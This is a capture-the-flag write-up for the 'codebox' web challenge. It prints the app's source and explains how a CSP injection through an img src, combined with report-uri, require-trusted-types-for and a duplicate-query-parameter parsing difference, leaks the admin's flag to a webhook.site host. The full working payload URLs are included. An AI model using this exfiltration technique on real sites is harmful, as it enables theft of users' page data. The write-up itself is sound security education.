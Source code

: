 ## Skills required: Focusing on what's important, reading documentation, appreciating URL parsing differences

I was lucky enough to solve this challenge. ~~This further strengthens my position as professional hint elicitor<sup>[1]</sup>.~~

This is a standard XSS challenge, which we have to exfiltrate admin's flag by sending a link exploiting a vulnerable web application.
In this challenge:
- we can render HTML inside a sandboxed iframe, which should be air-tight (to my knowledge) as it doesn't allow [many stuffs, including running any javascript](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox)
- the flag is in admin's localStorage, which is injected into DOM outside the sandboxed iframe

<details>
<summary>Frontend source (really short):</summary>

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <title>codebox</title>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width,initial-scale=1" />
  <style>
    /* not important, omitted */
  </style>
</head>
<body>
  <div id="content">
    <h1>codebox</h1>
    <p>Codebox lets you test your own HTML in a sandbox!</p>
    <br>
    <form action="/" method="GET">
        <textarea name="code" id="code"></textarea>
        <br><br>
        <button>Create</button>
    </form>
    <br>
    <br>
  </div>
  <div id="flag"></div>
</body>
<script>
    const code = new URL(window.location.href).searchParams.get('code');
    if (code) {
        const frame = document.createElement('iframe');
        frame.srcdoc = code;
        frame.sandbox = '';
        frame.width = '100%';
        document.getElementById('content').appendChild(frame);
        document.getElementById('code').value = code; 
    }

    const flag = localStorage.getItem('flag') ?? "flag{test_flag}";
    document.getElementById('flag').innerHTML = `<h1>${flag}</h1>`;
  </script>
</html>
```
</details>

<details>
<summary>Backend source (really short):</summary>

```js
const fastify = require('fastify')();
const HTMLParser = require('node-html-parser');

const box = require('fs').readFileSync('box.html', 'utf-8');

fastify.get('/', (req, res) => {
    const code = req.query.code;
    const images = [];

    if (code) {
        const parsed = HTMLParser.parse(code);
        for (let img of parsed.getElementsByTagName('img')) {
            let src = img.getAttribute('src');
            if (src) {
                images.push(src);
            }
        }
    }

    const csp = [
        "default-src 'none'",
        "style-src 'unsafe-inline'",
        "script-src 'unsafe-inline'",
    ];

    if (images.length) {
        csp.push(`img-src ${images.join(' ')}`);
    }

    res.header('Content-Security-Policy', csp.join('; '));

    res.type('text/html');
    return res.send(box);
});

fastify.listen({ host: '0.0.0.0', port: 8080 });
```

</details>

The only thing weird at first sight was **[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) injection**.
Not very familiar with CSPs, I attempted to:
- Override existing fields like `script-src`, which is ignored by the browser. We tried [overriding CSP with `script-src-elem` as we looked at this article by PortSwigger](https://portswigger.net/research/bypassing-csp-with-policy-injection) - it's an inspiring read but not very useful in this particular case as the in page script block won't run.
- Bypass iframe sandbox with CSP - I gave up several some futile attempts (which was right in retrospect)
- Use the sandboxed iframe, as I can inject things like `frame-src *; frame-ancestor: *;`, but without javascript execution things are tough.

Running out of ideas, I resorted to standard puzzle-solving techniques:
- CSP injection is *really* important, I should look at CSPs more thoroughly
- I cannot modify the page source as it's directly served from a file, no extra javascript, style or font
- Rendering the page within the iframe is probably not meaningful as javascript cannot be run [no matter how deep I go](https://csplite.com/csp/test27/)
- I need to exfiltrate data
  - It's very unlikely that I'll do it in JavaScript
  - So I need to exfiltrate DOM content?

After lots of reading I came across the *deprecated* [report-uri CSP directive](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri).
It allows me exfiltrate some irrelevant data upon CSP violations:

`<img src="x; report-uri https://webhook.site/135c5cc5-5864-416f-85af-93a41a9cbdb2">`
```json
{
  "csp-report": {
    "document-uri": "about",
    "referrer": "",
    "violated-directive": "img-src",
    "effective-directive": "img-src",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src x; report-uri https://webhook.site/135c5cc5-5864-416f-85af-93a41a9cbdb2",
    "disposition": "enforce",
    "blocked-uri": "https://codebox.mc.ax/x;%20report-uri%20https://webhook.site/135c5cc5-5864-416f-85af-93a41a9cbdb2",
    "status-code": 0,
    "script-sample": ""
  }
}
```

Then I looked further more on [what fields are present in the report](https://www.w3.org/TR/CSP/#deprecated-serialize-violation).
One caught my attention.

![sample1](https://user-images.githubusercontent.com/114584910/217045928-2e27cc56-2a58-4c70-890b-61b73811503f.png)
![sample2](https://user-images.githubusercontent.com/114584910/217045947-8ca10aa0-9084-4677-9404-627de2cc7c34.png)

We are getting closer in exfiltrating things, but it isn't enough. With even more reading I came across the *experimental* [require-trusted-types-for CSP directive](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/require-trusted-types-for). It is very interesting because it allowed developers to partially block XSS.

![experimental require-trusted-types-for](https://user-images.githubusercontent.com/114584910/217045763-9daf8313-2df7-41cd-8c3c-633c89ac8ba0.png)

After looking at the *[specification](https://w3c.github.io/trusted-types/dist/spec/)* I was sure that I've hit the jackpot:

![nice sample!](https://user-images.githubusercontent.com/114584910/217045663-28e51c41-09e4-4791-beea-82121e67a412.png)

I could craft a payload, but it did something quite unexpected:

`<img src="x;require-trusted-types-for 'script';report-uri https://webhook.site/135c5cc5-5864-416f-85af-93a41a9cbdb2">`
```json
{
  "csp-report": {
    "document-uri": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22x%3Brequire-trusted-types-for+%27script%27%3Breport-uri+https%3A%2F%2Fwebhook.site%2F135c5cc5-5864-416f-85af-93a41a9cbdb2%22%3E",
    "referrer": "https://codebox.mc.ax/?code=%3Cimg+src%3D%22x%3Brequire-trusted-types-for+script%3Breport-uri+https%3A%2F%2Fwebhook.site%2F135c5cc5-5864-416f-85af-93a41a9cbdb2%22%3E",
    "violated-directive": "require-trusted-types-for",
    "effective-directive": "require-trusted-types-for",
    "original-policy": "default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src x;require-trusted-types-for 'script';report-uri https://webhook.site/135c5cc5-5864-416f-85af-93a41a9cbdb2",
    "disposition": "enforce",
    "blocked-uri": "trusted-types-sink",
    "line-number": 50,
    "column-number": 22,
    "source-file": "https://codebox.mc.ax/",
    "status-code": 200,
    "script-sample": "HTMLIFrameElement srcdoc|<img src=\"x;require-trusted-types-for 's"
  }
}
```

With simple double checking, `require-trusted-types-for` affect `srcdoc` as well.

![CSP affects iframe srcdoc](https://user-images.githubusercontent.com/114584910/217045394-27b32cab-dc00-4191-9136-5f3898ff99e5.png)

I was a bit stumped but having faith that I was close, I raised a ticket roughly as follows:

> :raccoon:: I've come across some experimental features in my CSP search - I'm not sure if it's supported by the browser admin's using

> 🚩: admin's using latest puppeteer, which uses latest stable headless chrome

> :raccoon:: I can receive back first 40 characters of my `srcdoc` - I think I'm close but I'll try harder

> 🚩: if it works locally in latest chrome, it *should* work in admin

> :raccoon:: 😃

So now I could either:
1. Block the `frame.srcdoc = code;` part with some fancy CSPs, or
2. Don't execute `frame.srcdoc = code;`, i.e. make `code` falsy in frontend, but still inject the CSPs.

The second idea worked as I recalled [Orange Tsai's very inspiring presentation on URL parsing differences](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf). Pwnfunction made a [video](https://youtu.be/QVZBl8yxVX0) about the topic as well.

It's easy to confirm that `req.query.code` takes the *last* value, while `new URL(window.location.href).searchParams.get('code')` takes the *first*.
Namely we can use `?code=&code=<payload>` to skip the iframe creation and go straight to the flag and win.

Final Payload: `https://codebox.mc.ax/?code&code=%3Cimg+src%3D%22x%3Brequire-trusted-types-for+%27script%27%3Breport-uri+https%3A%2F%2Fwebhook.site%2F135c5cc5-5864-416f-85af-93a41a9cbdb2%22%3E`

<sup>[1]</sup>: I strictly play by the rules and only raise valid and non-intrusive tickets.
